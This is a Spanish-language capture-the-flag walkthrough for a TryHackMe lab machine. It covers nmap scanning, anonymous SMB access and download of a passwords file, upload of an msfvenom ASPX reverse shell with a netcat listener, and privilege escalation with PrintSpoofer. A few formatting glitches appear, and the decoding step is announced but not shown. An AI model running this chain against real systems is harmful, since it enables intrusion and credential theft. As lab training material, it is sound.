

---
layout: default
---

# Máquina REVELANT

## 1. Fase de Reconocimiento (Enumeración de Puertos)

En esta máquina, el objetivo es realizar una auditoría de seguridad completa. Comenzamos lanzando un escaneo de puertos para identificar los servicios activos.

### Escaneo de Puertos (Nmap)

**Comando sugerido:**

Bash

```bash
nmap -sV -sC -O -Pn -p- 10.80.154.48<br>
```



## 2. Enumeración de Recursos Compartidos (SMB)

Siguiendo el walkthrough, el siguiente paso lógico es inspeccionar el servicio SMB para ver si podemos acceder a algún archivo sin credenciales.

**Comando sugerido:**

Bash

```bash
smbclient -L //10.80.154.48/
```

> **Nota:** Si solicita contraseña, simplemente presiona **Enter** para intentar el acceso como invitado.
> 


## 3. Acceso y Extracción de Datos en SMB

Intentamos acceder al recurso `nt4wrksv` sin proporcionar contraseña (Anonymous Login).

**Comando de acceso:**

Bash

```bash
smbclient //10.80.154.48/nt4wrksv
```

### Contenido del recurso

Una vez dentro, listamos los archivos con el comando `ls`. Encontramos un archivo llamado:

- **`passwords.txt`**


**Acción realizada:**
Se descargó el archivo a nuestra máquina local para su análisis:

Bash

```bash
get passwords.txt
```

### Análisis de `passwords.txt`

Al abrir el archivo, encontramos dos cadenas codificadas en **Base64**. Procedemos a decodificarlas:


## 4. Verificación de Permisos de Escritura (SMB)

Para confirmar si el recurso compartido permite la subida de archivos (vector de RCE), se realizó una prueba de transferencia:

1. **Creación de archivo local:** `echo "test" > prueba.txt`
2. **Conexión al Share:** `smbclient //10.80.154.48/nt4wrksv`
3. **Carga exitosa:** Se utilizó el comando `put prueba.txt` dentro de la sesión de SMB.

**Resultado:** El servidor permitió la subida del archivo, lo que confirma que podemos cargar scripts maliciosos (shells).


### Confirmación del Punto de Entrada

- **Puerto identificado:** 49663.
- **URL de prueba:** `http://10.80.154.48:49663/nt4wrksv/prueba.txt`.
- **Resultado:** El navegador muestra exitosamente el contenido "test".

## 5. Obtención de Acceso Inicial (Reverse Shell)

Dado que el servidor es **Windows IIS**, utilizaremos un archivo de script de servidor de ASP.NET (`.aspx`) para obtener una shell reversa.

### Generación del Payload

En tu terminal de Kali, genera el archivo malicioso con `msfvenom` (sustituye `<TU_IP_VPN>` por tu dirección de TryHackMe):

Utilizamos `msfvenom` para crear una reverse shell en formato `.aspx` compatible con el servidor IIS:

Bash

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.225.50 LPORT=4444 -f aspx -o shell.aspx
```


### Paso 2: Carga del Script Malicioso

Nos conectamos nuevamente mediante `smbclient` y subimos el archivo al servidor:

Bash

```bash
smbclient //10.80.154.48/nt4wrksv<br>smb: \> put shell.aspx
```


### Paso 3: Escucha y Ejecución

1. **Listener:** En la terminal de Kali, ponemos Netcat a la escucha:Bash
    
    ```bash
    nc -lvnp 4444
    ```
    
2. **Trigger:** Desde el navegador, accedemos a la ruta del archivo para forzar su ejecución:
`http://10.80.154.48:49663/nt4wrksv/shell.aspx`


### Paso 4: Acceso Inicial

La conexión se recibe exitosamente. Al ejecutar `whoami`, confirmamos que tenemos una sesión activa como:

> **User:** `iis apppool\defaultapppool`
> 


## 6. Escalada de Privilegios (Enumeración)

Ahora que estamos dentro, el objetivo es convertirnos en **SYSTEM**. El primer paso es revisar los privilegios asignados a nuestra cuenta de servicio actual.

**Comando ejecutado:**

DOS

`whoami /priv`


**Preparación del Exploit (Local):**

1. Se descargó el binario `PrintSpoofer64.exe` desde el repositorio de GitHub de *itm4n*.

wget [https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe)

**Transferencia de Herramientas:**

1. Se utilizó la sesión de `smbclient` para transferir el ejecutable al directorio `nt4wrksv`.
2. Comando: `put PrintSpoofer64.exe`.


Una vez que el comando `put` termine en Kali, vuelve a la ventana donde tienes la shell de Windows (la de Netcat) y haz lo siguiente:

1. **Confirma que ya aparece:**DOS
    
    `dir`
    


h

1. **Ejecuta la escalada:**

DOS

`.\PrintSpoofer64.exe -i -c cmd`


